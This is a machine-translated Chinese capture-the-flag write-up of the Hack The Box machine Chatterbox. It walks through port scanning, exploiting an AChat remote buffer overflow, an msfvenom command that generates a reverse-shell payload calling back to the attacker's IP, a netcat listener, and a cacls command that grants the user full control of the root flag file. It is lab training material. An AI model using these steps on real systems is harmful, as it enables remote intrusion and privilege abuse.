

# Chatterbox —远程缓冲区溢出黑客

> 原文：<https://infosecwriteups.com/chatterbox-hack-the-box-writeup-dacb2ee8593d?source=collection_archive---------7----------------------->



话匣子

上个月我一直忙于大学毕业和新工作的过渡。我也从 VulnHub 过渡到了 Hackthebox，到目前为止我对它非常满意！不多说了，这里有一篇关于我几周前拥有的一个最近退役的盒子的文章。

# 摘要

Chatterbox 是运行聊天客户端的 Windows 机器，容易受到远程缓冲区溢出的攻击。由于权限弱/配置错误，利用此漏洞可以获得主机上的反向外壳并获得用户和根标志。

# 侦察/扫描

我开始用我的首选 nmap 扫描来探测服务检测`-sV`和默认脚本`-sC`。然而，这些没有返回任何结果，所以我运行了一个完整的端口扫描。这些扫描可能需要很长时间。因为我没有必要担心启动 IDS/IPS 设备，所以我运行了一个更主动的扫描来快速返回结果。

```
nmap -sT --min-rate 5000 --max-retries 1 -p-10.10.10.74 
```

nmap -p-

这返回了一个端口，然后我使用默认脚本对其运行服务扫描。

```
nmap -sC -sV -p9256 10.10.10.74 
```

nmap -p9256

# **AChat 远程缓冲区溢出**

使用`searchsploit`查找服务返回了 AChat 0.150 beta7 的远程缓冲区溢出漏洞。这是该服务返回的唯一漏洞，所以我非常确定这是路径，因为没有其他服务在 TCP 上运行。

这是我第一次完全利用缓冲区溢出，更不用说在远程主机上了。回顾一下`searchsploit` python 脚本的代码，有一个 shellcode 有效负载是用 msfvenomto 运行`cmd.exe`来执行`calc.exe`生成的，作为利用的概念证明。当您在远程主机上运行它时，它会使服务崩溃并弹出 calc！

为了验证这个漏洞，我启动了一个 Windows 7 虚拟机，下载了一个运行在我的主机上的 AChat 0.150 beta7。我将漏洞脚本中的主机 IP 更改为我的虚拟机，并将其关闭，成功地使服务崩溃并弹出`calc.exe`。太好了！现在我需要从这个漏洞中得到一个反向外壳。

# **反壳**

```
msfvenom -a x86 — platform Windows -p windows/shell_reverse_tcp -f python -e x86/unicode_mixed -b ‘\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff’ BufferRegister=EAX LHOST=10.10.14.2 LPORT=1234
```

好吧，这是我用过的最长的一句俏皮话之一。让我们来分解一下:

> `-a`x86 指定 32 位架构
> `-platform Windows`指定远程主机的平台
> `-p windows/shell_reverse_tcp`指定有效负载
> `-f python`指定格式化 python 脚本的输出
> `-e x86/unicode_mixed`指定编码器
> `-b`指定在编码中要避免的坏字符
> `BufferRegister=EAX`指定目标缓冲寄存器
> `LHOST`指定要连接回的本地主机 IP(我的 IP)
> `LPORT`指定要连接的本地端口(我的端口)

在这个有效载荷中需要强调的一点是`shell_reverse_tcp`是`reverse_tcp`的替代，它不需要 meterpreter 处理程序。我选择这个是因为我正在准备 OSCP 考试，并试图使用尽可能少的 metasploit。事实上，这个漏洞利用有一个 metasploit 模块，但是我选择稍微脏一点，用稍微不太自动化的方式打开这个盒子。

运行`msfvenom`的输出如下所示:

MSF 毒液有效载荷

我可以将其设置为 python 脚本的有效负载，替换弹出 calc.exeand 的外壳代码，并在端口 1234 上设置 netcatlistener。

```
nc -lvnp 1234
```

话匣子反壳

从这里开始，获取用户标志就像打印文件内容一样简单:

```
type “C:\Users\Alfred\Desktop\user.txt”
```

下一步是获取根标志。

# **根标志**

我发现我能够一直导航到管理员的桌面目录，这对于低权限用户来说是不常见的。然而，我无法键入根标志。我想既然我已经被允许进入这个目录，我就可以改变根标志的读取权限。

```
cacls “C:\Users\Administrator\Desktop\root.txt” /E /P Alfred:F
```

> `cacls` Windows 实用程序查看/编辑文件权限
> `/E`编辑 ACL
> `/P`设置权限
> `Alfred:F`授予 Alfred 对文件的完全控制权

果然，我能够授予自己读取该文件的权限，并成功地检索到根标志！

在得到我需要的东西后，我恢复了这个盒子，因为缓冲区溢出使服务崩溃，我让用户可以读取根标志。

# **成交单据**

总之，这是一个相当快的盒子，我很喜欢它。它让我能够接触到一些我还没有使用过的技术。我绝对推荐 Hackthebox，他们的实验室环境和论坛对任何想磨练自己的人来说都是一个极好的资源。